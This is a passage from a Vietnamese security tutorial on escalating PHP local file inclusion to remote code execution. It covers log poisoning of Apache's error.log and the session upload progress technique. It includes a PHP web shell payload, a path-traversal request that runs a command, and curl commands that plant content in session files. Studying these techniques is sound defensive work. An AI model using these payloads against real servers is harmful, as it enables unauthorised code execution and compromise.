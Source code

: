 Bây giờ truy cập access.log thông qua LFI và thực thi command

![image](https://hackmd.io/_uploads/HkTJ2-jPa.png)

### b. RCE via error.log
Ví dụ ta sử dụng file `error.log`. Khi ta nhập vào 1 địa chỉ không tồn tại thì nó sẽ được lưu lại ở file `error.log`, trường hợp này giả sử ta sử dụng file `/var/log/apache2/error.log`
`http://www.xyz.com/&lt;<? php system($_GET['cmd']) ?>` . Hiển nhiên sẽ trả về lỗi 404.
Từ đó ta có thể thực hiện remote code.
`http://www.xyz.com/ ?page=../../../../var/log/apache2/error.log%00&cmd=ls`

## 2. LFI to RCE via Session upload progress

Bản chất của kỹ thuật là chèn shell vào file session ngay cả khi PHP không tự tạo file session.

Để khai thác kỹ thuật này phụ thuộc vào vài cấu hình trong PHP cụ thể là php.ini:

- `session.auto_start = Off`: PHP sẽ không tạo session và ngược lại nếu là `On` sẽ tạo session mà không cần thực thi `session_start()`.

- `session.upload_progress.enabled = On`: Khi upload file thì PHP sẽ lưu thông tin thông qua session.

- `session.upload_progress.cleanup = On`: Sau khi upload file thì session file sẽ được xóa lập tức. Mặc định cấu hình này là `On`. Vậy dùng race condition để bypass cái này. Tham khảo cách bypass race condition tại [đây](https://clbuezzz.wordpress.com/2022/01/08/tu-lfi-den-rce/?fbclid=IwAR2DVdDZIgrBvKd8_Fxyr_KYRFXsA1PDPqC-x-pLOuUz1fLs1v3pEWPeCFs) và [đây](https://clbuezzz.wordpress.com/2022/01/09/buuctf-web-challengephan-17/)

- `session.upload_progress.prefix = "upload_progress_"`: Sử dụng chuỗi "upload_progress_" làm prefix trong file session.

- `session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"`: Khi xuất hiện trong form sẽ kiểm soát được giá trị bên trong file session.


File session sẽ được tạo vào thư mục theo cấu hình session.save_path: thường là `/tmp/sess_[SESSIONID]` hoặc là `/var/lib/php/sessions/sess_[SESSIONID]`

```bash=
$ curl http://127.0.0.1/ -H 'Cookie: PHPSESSID=iamorange'
$ ls -a /var/lib/php/sessions/
. ..
$ curl http://127.0.0.1/ -H 'Cookie: PHPSESSID=iamorange' -d 'PHP_SESSION_UPLOAD_PROGRESS=blahblahblah'
$ ls -a /var/lib/php/sessions/
. ..
$ curl http://127.0.0.1/ -H 'Cookie: PHPSESSID=iamorange' -F 'PHP_SESSION_UPLOAD_PROGRESS=blahblahblah'  -F 'file=@/etc/passwd'
$ ls -a /var/lib/php/sessions/
. .. sess_iamorange

In the last example the session will contain the string blahblahblah
```
